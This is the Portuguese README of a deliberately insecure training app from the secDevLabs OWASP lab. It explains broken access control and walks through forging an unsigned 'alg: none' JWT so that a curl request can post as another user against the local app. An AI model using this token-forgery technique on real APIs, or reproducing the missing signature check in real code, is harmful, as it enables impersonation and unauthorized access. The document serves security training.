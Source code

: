 

# Camp Crystal Lake API

[Access content in English](README.md)

<p align="center">
    <img src="images/camplake.png" width="400" height="400"/>
</p>

A API do Camp Crystal Lake é um aplicativo web simples de Golang que contém um exemplo de vulnerabilidade de controle de acesso quebrado e seu principal objetivo é descrever como um usuário mal-intencionado pode explorá-lo.

## Index

- [Definição](#o-que-é-quebra-de-controle-de-acesso)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é quebra de controle de acesso?

O controle de acesso impõe a política de forma que os usuários não possam agir fora de suas permissões pretendidas. As falhas geralmente levam à divulgação, modificação ou destruição de informações não autorizada dos dados ou à execução de uma função fora dos limites de acesso do usuário.

Os invasores podem explorar essas falhas para acessar funcionalidades e/ou dados não autorizados, como acesso a contas de outros usuários, visualizar arquivos confidenciais, modificar dados de outros usuários, alterar direitos de acesso, etc.

O principal objetivo deste aplicativo é discutir como as vulnerabilidades do **Quebra de Controle de Acesso** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações pull no **SecDevLabs** sobre como eles corrigiriam essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório o [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/camp-lake-api
```

```sh
make install
```

Depois é só visitar [localhost:20001][App] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esses passo a passo:

- Registrar um usuário;
- Realizar um login;
- Criar um novo post.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A validação incorreta do JWT, permite que usuários mal-intencionados criem tokens falsos e abusem da não validação do JWT. Um exemplo da não validação do JWT é não validar o algoritmo de assinatura usado.

Para entender melhor como a API funciona, criaremos um novo usuário.

Para este exemplo, criamos o usuário com as seguintes credenciais de login - `campLakeAdmin:campLake2021`

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/register  
```

<p align="center">
    <img src="images/attack_1.png"/>
</p>

Com o usuário criado, faremos login no aplicativo com suas credenciais para obter o token JWT. Por se tratar de um aplicativo de teste, o token JWT é devolvido ao usuário assim que ele efetua o login.

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/login
```

<p align="center">
    <img src="images/attack_2.png"/>
</p>

<p align="center">
    <img src="images/attack_4.png"/>
</p>

De posse do token JWT, podemos criar um novo post na API, fazendo uma requisição POST diretamente para a rota autenticada `newPost`.

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNhbXBMYWtlQWRtaW4iLCJleHAiOjE2MzMzODI5MzR9.aW4BTVuXaozSbF6EAJfRNsApRA_1hfk2OhaLAo250Uo' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_3.png"/>
</p>

### 🔥

Porém, a API não verifica a assinatura utilizada pelo token JWT, qualquer usuário malicioso pode criar um token falso, conforme mostra a imagem:

<p align="center">
    <img src="images/attack_5.png"/>
</p>

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6Imphc29uVm9vcmhlc3MiLCJleHAiOjE2MzMzODM1ODZ9.' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_6.png"/>
</p>


## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

* Usar tokens falsos sem uma assinatura válida.
* Alterar outros usuários por meio da manipulação do JWT.

## PR Soluções

[Alerta de spoiler  🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests]()!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) para orientações sobre como proceder !🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
